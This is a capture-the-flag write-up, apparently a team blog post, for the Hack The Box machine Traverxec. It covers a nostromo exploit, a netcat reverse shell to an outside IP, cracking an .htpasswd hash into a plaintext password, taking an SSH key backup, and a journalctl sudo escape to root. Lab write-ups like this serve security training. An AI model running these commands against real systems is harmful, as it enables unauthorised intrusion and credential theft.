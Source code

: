 ```yaml
---
title: Traverxec
layout: post
author: Bit Criminals Team
date: 2021-08-01 14:00:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://app.hackthebox.eu/machine/Traverxec
---
```


## Nmap scan

![](/images/leo/traverxec1.png)

## Exploit

On googling nostromo exploit we find <https://www.exploit-db.com/exploits/47837>
Downloading and using the exploit we are successfully able to run commands

![](/images/leo/traverxec2.png)

## Shell

Now we can get a interactive shell using the command ```nc -e /bin/sh 10.0.0.1 1234```

![](/images/leo/traverxec3.png)

And we have a shell.
Now  we use the command ```python -c 'import pty; pty.spawn("/bin/bash")'``` to stabilize the shell

## Creds

On enumerating through the system we find ```/var/nostromo/conf```

![](/images/leo/traverxec4.png)

Opening the ```.httpasswd``` file

We find ```david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/```

Using john to crack the hash 
``` 
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
We get ```david:Nowonly4me```

## SSH

Reading the last line of the ```nhttpd.conf file```
```
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```
We find that /home points nostromo to the home directory of the user and then in the directory the webroot is public_www

```
www-data@traverxec:/var/nostromo/conf$ cd /home/david/public_www
cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls
ls
index.html  protected-file-area
www-data@traverxec:/home/david/public_www$ cd protected-file-area
cd protected-file-area
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
ls
backup-ssh-identity-files.tgz
```
Now we just need to download the ```backup-ssh-identity-files.tgz```

```
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
```
## Cracking the key

Once we have the file we open it using
```
tar -zxvf backup-ssh-identity-files.tgz
```
And we have david's home directory along with his private ssh key
We find the passphrase using

![](/images/leo/travexec5.png)

Now we can ssh as david 
```
ssh -i id_rsa david@10.10.10.165
```
## david --> root

We find ```server-stats.sh``` in the bin directory

![](/images/leo/traverxec6.png)

The last line runs journalctl with sudo and if we are able to run the script that means we have sudo permission over journalctl

On searching for journalctl on gtfobins we find 
```
sudo journalctl
!/bin/sh
```
![](/images/leo/traverxec7.png) 